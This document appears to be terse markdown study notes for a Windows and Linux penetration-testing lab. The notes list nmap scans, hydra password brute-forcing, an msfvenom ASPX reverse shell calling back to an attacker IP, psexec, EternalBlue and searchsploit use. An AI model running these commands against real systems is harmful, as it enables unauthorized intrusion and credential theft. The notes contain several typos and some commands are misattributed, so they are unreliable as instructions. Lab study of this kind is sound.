 ## Windows Exploitation Black Box Penetration Test
### Port Scanning and Enumeration
- cat /etc/host
- nmap -sV <target-ip>
- nmap -T4 -PA -sC -sV -p 1-10000 <target-ip> -oX nmap10k
- import result to the metasploit
- find version with smb_version module
### Windows IIS 
- nmap -sV -p21,80 <target-ip>
- ls -al /usr/share/nmap/scripts | grep ftp-
- hydra -L /usr/share/wordlists/metasploit/unix_users/txt -P /unix_password <target-ip> ftp
- generate a asp reverseshell and upload and run it
- msfvenom -p windows/shell/reverse_tcp Lhost=<attacker-ip> Lport=1234 -f asp > shell.aspx
- set multi-handler and run

### Targeting OpenSSH
- nmap -sC -sC -p 22 <target-ip>
- searchsploit
- hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt <target-ip> ssh
- net localgroup administrators
- whoami /priv
### Targeting SMB 445
- nmap -sV -sC -p 445 <target-ip>
- smbclient -L <target-ip> -U vagrant
- enum4linux -u -p <taerget-ip>
- search smb_enumusers
- locate psexec.py
- python3 psexec.py Administrator@<target-ip>

### Targeting MySQL Database Server 3306
- search mysql_login
- use set run
- mysql -u root -p -h <target-ip>
- msfconsole
- eternalblue
- phpmyadmin.conf search and modify the rule to allow all
- now shell
- net stop wampapache 
- net start wampapache

## Linux Exploitation
### Port Scanning And Enumeration
- nmap -sV -sS -p- <target-ip>
### Exploiting vsFTPd
- nmap -p21
- nmap -sV -p25 
- search smtp_enum
- hydra -l service -P /usr/share/.../unix_passwords.txt <target-ip> ftp
### Targeting PHP
- nmap -p80
- /phpinfo.php
- searchsploit php cgi
- searchsploit -m  18836
### Targeting SAMBA
- nmap -p445
- nc -nv banner grabbing